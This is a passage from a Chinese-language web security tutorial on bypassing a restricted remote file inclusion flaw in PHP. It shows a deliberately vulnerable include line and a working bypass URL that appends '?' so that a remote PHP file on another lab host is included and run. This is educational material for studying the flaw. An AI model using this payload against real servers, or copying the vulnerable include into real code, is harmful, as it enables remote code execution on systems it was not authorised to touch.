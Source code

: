 ![d794208aa9dae8798ebcd7e6d12b430e.png](../../images/efd75c4233944ec7a5b7bbc13e2d8ac3.png)

## 3.2 有限制远程文件包含漏洞绕过

测试代码：

```
<?php include($_GET['filename'] . ".html"); ?>
```

代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。
![bb56813011076bfc547db51744bccfd4.png](../../images/02916af452164d76a182d0b78b894e96.png)

- a.问号绕过
  http://172.16.3.186/test/yfi.php?filename=http://172.16.3.183/php.txt?